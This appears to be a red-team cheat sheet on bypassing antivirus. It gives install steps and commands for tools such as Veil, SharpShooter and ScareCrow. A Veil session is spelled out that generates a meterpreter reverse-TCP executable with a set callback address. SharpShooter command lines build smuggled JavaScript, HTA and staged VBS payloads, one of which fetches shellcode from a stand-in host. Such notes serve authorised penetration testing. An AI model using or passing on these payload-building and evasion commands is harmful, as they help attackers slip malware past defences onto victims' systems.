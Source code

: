 # Bypassing AV

## Veil Framework:

Install on Kali: 
- `apt install veil`
- `/usr/share/veil/config/setup.sh --force --silent`

Reference: https://github.com/Veil-Framework/Veil

Generate exe example:

```
$ veil
> use 1 (Evasion)
> use 11 (cs/meterpreter/rev_tcp)
> set LPORT 4442
> set LHOST 10.52.252.94
> set USE_ARYA Y
> generate
$ ls /var/lib/veil/output/compiled/
```

## Shellter

Source: https://www.shellterproject.com/download/

- `apt install shellter`

## Sharpshooter

Javascript Payload Stageless: 

- `SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3`

Stageless HTA Payload: 

- `SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee`

Staged VBS:

- `SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4`

Reference: https://github.com/mdsecactivebreach/SharpShooter

## Donut: 

Source: https://github.com/TheWover/donut

## Vulcan

Source: https://github.com/praetorian-code/vulcan

## Scarecrow

Source: https://github.com/optiv/ScareCrow

In Kali: 

```
sudo apt install golang

go get github.com/fatih/color
go get github.com/yeka/zip
go get github.com/josephspurrier/goversioninfo

go build ScareCrow.go

./ScareCrow
```